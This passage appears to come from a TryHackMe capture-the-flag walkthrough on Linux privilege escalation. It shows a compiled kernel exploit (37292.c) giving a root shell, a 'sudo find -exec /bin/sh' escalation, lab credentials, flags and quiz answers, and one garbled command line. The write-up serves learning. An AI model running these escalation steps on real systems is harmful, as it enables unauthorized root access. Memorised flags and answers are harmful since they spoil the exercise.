 <pre><code>$ gcc -static 37292.c -o exploit
$ ./exploit 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
</code></pre><br>

<pre><code># whoami
root
</code></pre><br>

<pre><code># cat /home/matt/flag1.txt
THM-28392872729920
</code></pre><br>

<h2>Task 6 - Privilege Escalation: Sudo</h2>
<br>

<p><strong>Note: Launch the target machine attached to this task to follow along.<br>

You can launch the target machine and access it directly from your browser.<br>

Alternatively, you can access it over SSH with the low-privilege user credentials below:<br><br>

Username: karen<br>

Password: Password1</strong></p>

<p>.......................</p>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the questions below}}$$ </h3>

> 6.1 - <em>How many programs can the user "karen" run on the target system with sudo rights?</em><br>
>> <code><strong>3</strong></code><br>
<p><br></p>

<pre><code># sudo -l
Matching Defaults entries for karen on ip-[Target]:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karen may run the following commands on ip-[Target]:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
</code></pre><br>

> 6.2 - <em>What is the content of the flag2.txt file?</em><br>
>> <code><strong>THM-402028394</strong></code><br>
<p></p>

<pre><code>$ sudo -lsudo find . -exec /bin/sh \; -quit
# whoami
root
</code></pre><br>
